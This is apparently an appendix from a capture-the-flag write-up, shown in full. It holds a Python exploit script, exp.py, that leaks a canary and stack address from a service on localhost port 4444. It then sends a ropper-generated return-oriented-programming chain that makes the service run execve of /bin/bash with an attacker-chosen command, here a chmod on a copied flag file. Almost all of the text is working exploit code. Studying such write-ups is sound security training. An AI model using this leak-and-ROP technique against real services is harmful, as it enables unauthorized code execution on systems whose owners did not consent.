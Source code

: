 {% include widgets/toggle-field.html toggle-name="shell_py"
    button-text="Show shell.py" toggle-text=shell_py%}

# Appendix 2 - exp.py

{% capture exp_py %}

```python
import socket
import base64
from struct import pack, unpack
from time import sleep
p = lambda x : pack('Q', x)
u = lambda x : unpack('<Q', x.rjust(8, b'\x00'))

#leak
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 4444))
s.settimeout(5)
s.send(b'admin\nadmin\n')
output = s.recv(256)
leak = output[104:112]
print(hex(u(leak)[0]))
print(leak)
stack_base = u(output[96:104])[0]
print(hex(stack_base))
s.close()

print("finshed_leak")

#exploit
# Generated by ropper ropchain generator #
IMAGE_BASE_0 = 0x0000000000400000 # f52bd202dc2b92d4ca734d1750ac152efd33478a5aec73f7974354784603533f
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = b''

rop += rebase_0(0x000000000000101a) # 0x000000000040101a: ret;
rop += rebase_0(0x00000000000018d1) # 0x00000000004018d1: pop rdi; ret;
rop += p(stack_base-0xa0)
rop += rebase_0(0x000000000000f67e) # 0x000000000040f67e: pop rsi; ret;
rop += p(stack_base-0x28)
rop += rebase_0(0x000000000000176f) # 0x000000000040176f: pop rdx; ret;
rop += p(0x0000000000000000)
rop += rebase_0(0x00000000000497a7) # 0x00000000004497a7: pop rax; ret;
rop += p(0x00000000000003b)
rop += rebase_0(0x0000000000017164) # 0x0000000000417164: syscall; ret;
rop += rebase_0(0x0000000000017164) # 0x0000000000417164: syscall; ret;

print(len(rop))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 4444))
s.settimeout(5)
cmd = b"/bin/bash\x00".ljust(16, b'\x00')
arg1 = b"-c".ljust(8, b'\x00')
#arg2 = b"cp /flag2 /tmp/fl\x00"
arg2 = b"chmod 777 /tmp/fl\x00"
#execve('/bin/bash', ['/bin/bash', '-c', command], 0)
payload = b"\n"+cmd+arg1+leak.rjust(32-(8*3), b'\x00')+rop+p(stack_base-0xa0)+p(stack_base-0x90)+p(stack_base-0x8)+p(0)+arg2+b"\n"
print(len(payload))
```